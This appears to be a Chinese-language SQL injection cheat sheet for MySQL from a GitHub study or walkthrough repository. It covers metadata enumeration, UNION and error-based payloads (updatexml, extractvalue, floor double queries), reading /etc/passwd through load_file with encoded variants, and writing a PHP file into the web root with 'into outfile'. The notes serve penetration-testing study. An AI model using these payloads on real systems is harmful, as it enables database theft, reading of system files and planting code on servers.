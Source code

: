 * 通关文档

## 不同数据库注入技巧
### MySQL
* 获取数据

注释符

```
#：注释从#符号到行尾
--：注释从--符号到行尾
/* */：注释符号中间
```

获取元数据

```
# 查询用户数据库名称
select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA limit 0,1;

# 查询当前表
select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA=(select DATABASE()) limit 0,1;

# 查询表中的字段
select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME="table_name" limit 0,1; 
```

union查询

```
select username,password from bloodzer0 union select 1,2;
```

MySQL报错注入

```
# 利用错误信息
select convert((select @@version),signed);

# updatexml函数
select * from bloodzer0 where id=1 and updatexml(1,(concat(0x7c,(select @@user()))),1);

# extractvalue函数
select * from bloodzer0 where id=1 and extractvalue(1,concat(0x7c,(select user())));

# 通过floor函数(也就是常说的双查询注入)
select * from bloodzer0 where id=1 union select * from (select count(*),concat(floor(rand(0)*2),(select user()))a from information_schema.tables group by a)b;
```

* MySQL函数

```
# load_file()函数读文件
select 1,load_file('/etc/passwd'),3;
select 1,load_file(0x2f6574632f706173737764),3;
select hex(load_file(char(47,101,99,116,47,112,97,115,115,119,100))),3;

# into outfile函数写文件
select '<?php phpinfo();?>' into outfile '/var/www/html/info.php';
select char(99,58,92,50,46,116,120,116) into outfile '/var/www/html/info.php';

# 连接字符串
select * from bloodzer0 where id=1 union select concat(user(),',',database());

select * from bloodzer0 where id=1 union select concat_ws(0x2c,user(),database());
```
